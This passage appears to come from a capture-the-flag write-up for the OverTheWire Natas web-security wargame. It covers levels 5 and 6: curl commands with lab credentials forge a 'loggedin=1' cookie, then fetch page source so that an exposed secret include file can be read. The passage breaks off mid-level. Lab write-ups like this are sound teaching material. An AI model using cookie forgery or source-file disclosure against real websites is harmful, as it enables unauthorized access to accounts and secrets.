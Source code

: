 ![image](https://user-images.githubusercontent.com/31420144/105458207-b24d1280-5cba-11eb-8e5c-058152f47b35.png)

&rarr; Change the field `loggedin`

```bash
curl --silent --user natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq --cookie loggedin=1 http://natas5.natas.labs.overthewire.org
```

```bash
curl --silent --user natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq --cookie loggedin=1 http://natas5.natas.labs.overthewire.org | grep "natas6"
```

## Level 6

```bash
curl --silent --user natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org
```

We get the result  

```html
<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>
```

![image](https://user-images.githubusercontent.com/31420144/105458635-8aaa7a00-5cbb-11eb-9f9c-167669a9279a.png)

Now we should view sourcecode  

```bash
curl --silent --user natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/index-source.html
```

Consider the piece of code  

```html
<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>
```

Try to view the file `includes/secret.inc`  
